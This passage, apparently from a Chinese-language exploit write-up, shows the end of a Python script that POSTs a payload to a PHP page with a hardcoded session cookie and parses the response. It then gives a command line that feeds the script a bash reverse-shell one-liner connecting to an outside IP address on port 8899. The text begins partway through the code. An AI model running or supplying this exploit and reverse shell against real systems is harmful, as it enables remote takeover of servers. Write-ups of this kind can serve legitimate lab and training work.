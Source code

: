 ```python
    )
    cookies = {"PHPSESSID": "ko3ccuvbc3hla124vm57ge3b6u"}
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    req = requests.request("POST", url, data=payload, cookies=cookies, headers=headers)
    html = req.text
    soup = BeautifulSoup(html, "html.parser")
    result = soup.find("div", class_="result-box").text
    return result

if __name__ == "__main__":
    main()

```

![image-20240601222012189](./images/202406012237588.png)

命令: python main.py "bash -c 'bash -i >& /dev/tcp/47.94.237.26/8899 0>&1'"

![img](./images/202406012237589.jpg)
